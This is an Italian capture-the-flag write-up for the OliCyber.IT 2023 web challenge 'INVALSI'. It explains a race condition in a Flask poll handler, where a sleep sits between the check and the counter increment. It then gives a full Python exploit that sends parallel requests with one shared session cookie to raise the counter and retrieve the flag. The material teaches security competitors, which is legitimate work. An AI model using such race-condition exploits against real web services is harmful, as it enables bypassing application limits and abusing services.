 # OliCyber.IT 2023 - Simulazione training camp 2

## [web] INVALSI (18 risoluzioni)

La challenge ci presenta un server in flask che ci propone un piccolo sondaggio.

Alla submission del form tuttavia i dati non vengono salvati ed al posto di questa operazione c'è una attesa attiva:

```python
if request.headers.get('Content-Type') == "application/json" and count == 0:
    data = request.json

    for r in data:
        # TODO: aggiungere i dati nel database
        # per adesso lo simulo con una sleep
        time.sleep(0.1)

    local_db[user_id] += 1

return render_template('poll.html', count=local_db[user_id])
```

Inoltre la flag viene mostrata solo se la variabile `local_db[user_id]` raggiunge un valore `>=3`, come da logica nel file del template:

```html
<h3 class="text-center">
  {% if count >= 3 %} {{ FLAG }} {% else %} Ritenta :/ {% endif %}
</h3>
```

### Soluzione

Sfruttando l'attesa attiva possiamo eseguire 3 richieste con un po' di dati all'interno, queste richieste in parallelo entreranno tutte e tre nell'if, verrano viste dal ciclo che attenderà e successivamente incrementeranno il contatore.

In questo modo possiamo aumentare il contatore a piacere anche se normalmente nell'if si dovrebbe entrare solo una volta.

### Exploit

```python
from multiprocessing import Pool
import requests
import random
import re

WORKER_NUMBER = 10

base_url = "http://invalsi.challs.olicyber.it"

r = requests.get(base_url)
session_cookie = r.cookies['session']


def worker(i):
    print(f"Request: {i}")

    requests.post(base_url, cookies={
        'session': session_cookie
    }, json=([{
        "arg": "value"
    }] * random.randint(5, 20) ))


pool = Pool(WORKER_NUMBER)
result = pool.map_async(worker, range(WORKER_NUMBER)).get(0xffff)

r = requests.get(f"{base_url}/flag", cookies={
    'session': session_cookie
})

f = re.findall('flag\{.*\}', r.text)
if len(f) > 0:
    print(f[0])
else:
    print("Zero luck")
```
